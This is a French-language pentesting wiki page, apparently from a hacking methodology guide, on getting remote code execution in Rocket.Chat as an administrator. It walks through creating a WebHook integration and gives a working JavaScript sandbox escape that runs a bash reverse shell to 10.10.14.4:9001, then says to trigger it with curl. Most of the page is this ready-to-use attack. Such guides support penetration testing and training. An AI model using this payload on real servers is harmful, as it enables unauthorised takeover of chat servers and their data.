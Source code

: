 ## RCE

Si vous êtes administrateur dans Rocket Chat, vous pouvez obtenir une RCE.

* Allez dans **`Intégrations`** et sélectionnez **`Nouvelle intégration`** et choisissez n'importe laquelle : **`Incoming WebHook`** ou **`Outgoing WebHook`**.
  * `/admin/integrations/incoming`

<figure><img src="../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

* Selon la [documentation](https://docs.rocket.chat/guides/administration/admin-panel/integrations), les deux utilisent ES2015 / ECMAScript 6 ([essentiellement JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c)) pour traiter les données. Alors, obtenons un [shell inversé pour javascript](../../generic-methodologies-and-resources/shells/linux.md#nodejs) comme suit :
```javascript
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```
* Configurez le WebHook (le canal et le nom d'utilisateur du message doivent exister) :

<figure><img src="../../.gitbook/assets/image (1) (8).png" alt=""><figcaption></figcaption></figure>

* Configurez le script WebHook :

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

* Enregistrez les modifications
* Obtenez l'URL WebHook générée :

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Appelez-le avec curl et vous devriez recevoir le shell inversé
